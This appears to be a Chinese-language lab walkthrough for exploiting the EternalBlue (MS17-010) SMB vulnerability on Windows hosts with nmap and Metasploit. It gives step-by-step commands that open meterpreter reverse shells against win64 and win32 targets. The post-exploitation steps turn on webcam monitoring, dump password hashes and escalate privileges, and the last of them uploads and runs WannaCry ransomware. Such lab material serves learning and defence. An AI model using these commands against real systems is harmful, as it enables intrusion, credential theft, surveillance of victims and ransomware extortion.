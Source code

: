 # 永恒之蓝-漏洞利用
## 环境
宿主机:	192.168.43.152 \
kali:	192.168.43.1 \
win32:	192.168.43.3（防火墙允许文件与打印机共享) \
win64:	192.168.19.2（防火墙允许文件与打印机共享)

## 主机发现
`nmap -n -p445 --script smb-vuln-ms17-010 192.168.19.154 --open` \ 
也可以用 \
`nmap -n -p445 192.168.43.2` \
`>nmap ms17-010` 定向扫描,发现端口开放并存在ms17-010 漏洞

## 使用msf框架攻击win64
`msfconsole` \
>进入msf> \
`version` \
>确保MS \
>架版本在 4.14.17以上,否则请apt-get install,search search ms17_010 \
>漏洞模块路径查询，搜索到了 4 个相关的插件： \
>`auxiliary/admin/smb/ms17_010_command` \
>`auxiliary/scanner/smb/smb_ms17_010` \
>`exploit/windows/smb/ms17_010_eternalblue` \
>`exploit/windows/smb/ms17_010_psexec` \
>其中前2个插件是auxiliary下的，属于辅助验证程序,用来扫描的。3和4是exploit下的,用来攻击。 \
>注意到,msf的模块目录是在/usr/share/metasploit-framework/modules \
`use exploit/windows/smb/ms17_010_eternalblue` \
>调用攻击模块 \
`options` \
>查看参数,并设置： \
`set RHOST 192.168.43.2` \
>设定攻击目标  \
`show payloads` \
>查看详细信息 \
`set payload windows/x64/meterpreter/reverse_tcp` \
>配置攻击载荷  \
`set LHOST 192.168.43.1` \
>设置操作机地址,即kali本机地址 \
`exploit` \
>发起攻击,也可以用`run`。出现win -success!就成功了。

## 可以试试以下操作，或者help
`getuid，sysinfo` \
>查看系统信息 \
`webcam_list` \
>看看被控制的电脑有没有摄像头,如果有用webcam_stream命令可以打开摄像头监控 \
`route` \
>查看路由表 \
`screenshot` \
>桌面截图，很卡 \
`shell` \
>打开命令行，然后可以ipconfig/whoami/net user \
`ps` \
>看看开了哪些杀毒软件，内网一致 \
`kill` \
`hashdump` \
`getsystem` \
>提权 \
`upload wcry/wcry.ext c:\` \
`upload wcry/FILE_ID.DIZ c:\` \
`execute -f c:\wcry.exe` \
>上传和执行勒索病毒

## 使用msf框架攻击win32
`use exploit/windows/smb/ms17_010_psexec` \
`set RHOST 192.168.43.3` \
`set payload windows/meterpreter/reverse_tcp` \
`show options` \
查看设置好的参数 \
`set LHOST 192.168.43.1` \
`set SMBUser aleecy` \
>32位机的账号 \
`set SMBPass 0` \
>32位机的密码 \
`exploit`


## 更多参考：
http://www.sqlsec.com/2018/03/smb.html \
https://blog.csdn.net/zmeixuan/article/details/77587370 \
http://www.freebuf.com/articles/system/132274.html

## 清理重载msf：
`/etc/init.d/postgresql restart` \
`reload_all`
